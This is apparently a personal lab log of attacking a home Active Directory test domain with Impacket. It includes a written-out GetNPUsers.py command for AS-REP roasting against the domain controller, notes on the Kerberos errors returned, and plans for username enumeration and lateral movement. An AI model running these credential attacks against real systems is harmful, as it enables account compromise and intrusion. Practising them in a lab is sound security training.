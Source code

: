 # 🛠️ Day X – Kerberos & Impacket Testing (May 3, 2025)

**Objective:**  
Continue attacking the Windows Server 2025 AD environment by testing Kerberos-related enumeration and exploring Impacket scripts for credential attacks.

**Target Machine:**  
- **IP:** `192.168.1.2`  
- **Hostname:** `PC.narnia.com`  
- **Domain:** `narnia.com`  
- **Attacker Machine:** Kali Linux (192.168.1.10)

---

## 🔧 Tasks Performed

### 1. ✅ Set Up Virtual Environment for Impacket
```bash
sudo apt install python3-venv -y
python3 -m venv ~/venv-impacket
source ~/venv-impacket/bin/activate
```
✅ Environment activated successfully for isolated Impacket use.

---

### 2. 🚀 Ran GetNPUsers.py for AS-REP Roasting
```bash
cd ~/impacket/examples
python3 GetNPUsers.py narnia.com/ -usersfile ~/usernames.txt -format john -dc-ip 192.168.1.2
```

**Results:**
- `KDC_ERR_C_PRINCIPAL_UNKNOWN` – Most users not found in Kerberos DB
- `UF_DONT_REQUIRE_PREAUTH` not set for administrator
- `KDC_ERR_CLIENT_REVOKED` – Some accounts are locked or disabled

---

### 3. 🐛 Errors and Troubleshooting

| Issue | Explanation | Resolution |
|-------|-------------|------------|
| KDC_ERR_C_PRINCIPAL_UNKNOWN | Usernames may not exist or typo in list | Update user list and re-test |
| UF_DONT_REQUIRE_PREAUTH | Needed for AS-REP Roasting | Identify misconfigured users |
| KDC_ERR_CLIENT_REVOKED | Indicates locked/disabled account | Likely not usable |

---

## 📌 Notes

Impacket works, but enumeration is limited.

**Next steps:**
- Refine `usernames.txt` using LDAP/SMB/enum4linux
- Use `kerbrute` for additional username discovery
- Explore lateral movement once credentials are found
